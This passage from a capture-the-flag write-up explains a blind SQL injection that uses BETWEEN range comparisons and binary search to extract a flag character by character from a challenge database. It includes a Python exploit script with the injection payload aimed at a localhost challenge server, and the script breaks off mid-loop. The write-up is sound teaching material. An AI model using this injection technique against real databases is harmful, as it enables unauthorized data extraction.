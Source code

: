 ## 5. Final script
With these examples, I think you already have a rough a idea about getting the flag:
- By checking `database.py`, we know that the flag is in the description of `Flagmon`. 
- We obtain the prefix of the current flag as left bound, and `prefx + char + '}'` (`+` is concatenation operation, char is our target character) as right bound. These bounds would be used in `BETWEEN` operator.
- Check if there is a description in between our set bound. If yes, then the current character is large enough to include the flag; if no, then the flag isn't in our range.
- We will then obtain a 'turning point'. I mean, if at some point if we find a character `c` which returns `True`, then the previous character of character `c` is the next character of the flag.

For example, the current flag is `cuhk24ctf{test-flag}`, and our prefix is `cuhk24ctf{`, if we query the range between `cuhk24ctf{` and `cuhk24ctf{s}`, then this returns a `False` because 's' is (lexicographically) smaller than 't'. If we query the range between `cuhk24ctf{` and `cuhk24ctf{t}` however, this returns a `True` because `cuhk24ctf{test-flag}` is (lexicographically) smaller than `cuhk24ctf{t}`.

We can do this searching character by character to obtain the final flag. The searching can be sped up with binary search.

```py
import requests, string, time

charset = sorted(string.ascii_letters + string.digits + "{_-\\}", key=lambda x: ord(x))
url = "http://localhost:24021/query"
formatter = "\\' OR description BETWEEN $$Flagmon stores a flag called {left}$$ AND $$Flagmon stores a flag called {right}$$ COLLATE \"C\" AND id - 2147483647 - 100 BETWEEN 0 AND 1 --"

flag = "cuhk24ctf{"

last_attempt = 0

def attempt(char):
    global last_attempt

    # rate limit ourselves according to the source code
    curr = time.time()
    time.sleep(max(0, last_attempt + 1 - curr))

    req = requests.post(url, data={"value": formatter.format(left=flag, right=flag + char + '}')})

    # update the last attempt time
    last_attempt = time.time()
    
    return req.status_code == 400

# returns the character for the next position
def search_func():
    l = -1
    r = len(charset) - 1
    # cuhk24ctf{ <=> cuhk24ctf{}
    # smaller than cuhk24ctf{t -> false
    # larger or equal to cuhk24ctf{t -> true
    while l + 1 < r:
        m = (l + r) >> 1
        if attempt(charset[m]):
            # OK
            r = m
        else:
            l = m
    return charset[r]

while flag[-1] != '}':
    # search
```